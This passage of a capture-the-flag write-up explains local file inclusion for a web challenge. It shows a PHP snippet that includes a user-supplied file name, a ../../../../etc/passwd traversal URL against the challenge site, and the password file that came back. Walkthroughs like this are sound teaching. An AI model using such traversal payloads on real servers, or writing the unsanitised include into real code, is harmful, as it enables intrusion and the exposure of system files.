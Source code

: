 <p>Can it be a hint? Maybe the code is looking for a file in the server named just as in our input. If that's the case and code is not properly implemented, it can be vulnerable to <b>local file intrusion</b> attack. </p>

<p><b>LFI</b> occurs, when programmer does not correctly sanitaze the page include, which allows an attack to inject directory traversal characters and get system infromation essential to further exploit the server. Here you can see an example of such <b>bad code</b>. </p>

{% highlight php %}
<?php
 $file = $_GET['f'];
 if(isset($file))
 {
     include("$file");
 }
 else
 {
     include("index.php");
 }
?>
{% endhighlight %}

<p>As we now know the basics, let's try to get some files using this attack and see if it works. First one - <b>/etc/passwd</b>. To get this working you have to enter ../../../../etc/passwd path in the input box, click submit and webpage will redirect you to the file. That's how we'll be trying to access this and other resources.  </p>

{% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=..%2F..%2F..%2F..%2Fetc%2Fpasswd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
{% endhighlight %}
